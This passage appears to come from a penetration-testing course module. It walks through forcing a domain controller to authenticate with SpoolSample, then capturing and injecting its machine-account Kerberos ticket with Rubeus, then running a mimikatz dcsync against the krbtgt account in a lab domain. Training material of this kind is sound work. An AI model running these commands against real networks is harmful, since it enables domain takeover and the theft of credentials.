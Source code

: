 > Listing 24 - Initiating print spooler change notification

The SpoolSample output is not always accurate, and it may be necessary to run the tool multiple times before the change notification callback takes place.

After waiting a few seconds, we'll switch back to Rubeus, which displays the TGT for the domain controller account.

```
[*] 4/13/2020 2:45:16 PM UTC - Found new TGT:

  User                  :  CDC01$@PROD.CORP1.COM
  StartTime             :  4/13/2020 2:26:32 AM
  EndTime               :  4/13/2020 12:26:32 PM
  RenewTill             :  4/15/2020 8:14:07 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFIjCCBR6gAwIBBaEDAgEWooIEIzCCBB9hggQbMIIEF6ADAgEF...

[*] Ticket cache size: 1
```

> Listing 25 - Domain controller machine account TGT is found

We have forced the domain controller machine account to authenticate to us and give us a TGT without any user interaction. Nice!

Dirk-jan Mollema created _krbrelayx_,[2](https://portal.offsec.com/courses/pen-300-9502/learning/active-directory-exploitation-14684/active-directory-exploitation-14915#fn-local_id_636-2) a Python implementation of this technique. The benefit of this tool is that it does not require execution of Rubeus and Spoolsample on the compromised host as it will execute on the Kali machine.

Now that we've managed to avoid user interaction, we can further improve this technique by avoiding the write to disk. Rubeus monitor outputs the Base64-encoded TGT but it can also inject the ticket into memory with the ptt command.

```
C:\Tools> Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
...

[*] Action: Import Ticket
[+] Ticket successfully imported!
```

> Listing 26 - Injecting TGT with Rubeus

With the TGT of the domain controller machine account injected into memory, we can perform actions in the context of that TGT. However, the CDC01$ account is not a local administrator on the domain controller so we cannot directly perform lateral movement with it.

On the other hand, the account has domain replication permissions, which means we can perform dcsync and dump the password hash of any user, including the special _krbtgt_ account.

```
mimikatz # lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
[DC] 'prod.corp1.com' will be the domain
[DC] 'CDC01.prod.corp1.com' will be the DC server
[DC] 'prod\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/2/2020 7:09:13 AM
Object Security ID   : S-1-5-21-3776646582-2086779273-4091361643-502
```